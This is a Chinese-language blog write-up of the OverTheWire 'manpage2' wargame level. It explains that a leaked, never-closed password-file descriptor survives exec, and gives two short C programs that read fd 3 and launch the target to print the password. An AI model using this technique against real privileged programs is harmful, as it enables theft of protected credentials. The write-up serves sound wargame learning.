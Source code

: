 ```yaml
---
title: manpage2
author: rk700
layout: post
redirect_from:
  - /writeup/2014/07/18/manpage2
  - /writeup/2014/07/18/manpage2/
tags: 
  - OverTheWire
  - exploit
---
```

问题出在，密码文件打开之后没有关闭，而fd是可以从exec继承的。于是我们先写一个读文件内容的程序 

{% highlight c %}
#include <unistd.h>

int main () {
    char buf[64];
    lseek(3, 0, SEEK_SET);
    ssize_t num;
    while((num=read(3,buf,sizeof buf)) > 0)
        write(STDOUT_FILENO, buf, num);
    return 0;
}
{% endhighlight %}

这里fd是3因为打开的密码文件的fd应该是接着0,1,2

然后执行manpage2的程序，让argv[0]为我们的读密码程序 

{% highlight c %}
#include <unistd.h>

int main (int argc, char *args[]) {
    execl("/manpage/manpage2", "./getPass", NULL);
}
{% endhighlight %}
